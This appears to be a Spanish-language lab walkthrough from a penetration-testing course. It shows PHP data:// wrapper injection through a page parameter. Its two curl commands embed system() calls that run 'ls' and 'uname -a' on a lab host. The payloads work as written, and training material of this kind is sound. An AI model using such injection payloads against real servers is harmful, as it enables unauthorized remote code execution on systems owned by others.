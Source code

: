# Walk: Laboratorio 2 de 2 PHP wrappers

## Fecha: 20/01/2025
## Host: Ubuntu
## IP: 192.168.227.16

---

## Objetivo
Follow the steps above and use the data:// PHP Wrapper in combination with the 
URL encoded PHP snippet we used in this section to execute the uname -a command 
on WEB18 (VM #1). Enter the Linux kernel version as answer.

---
## Herramientas
1. curl 
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: Ejecutamos directamente el curl con el wrapper data://
	- **curl -i "http://192.168.227.16/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"**
	- Obtenemos un resultado positivo.
2. Paso 2: Ejecutamos uname -a:
	- **curl -i "http://192.168.227.16/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>"**
	- obtenemos el flag 
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

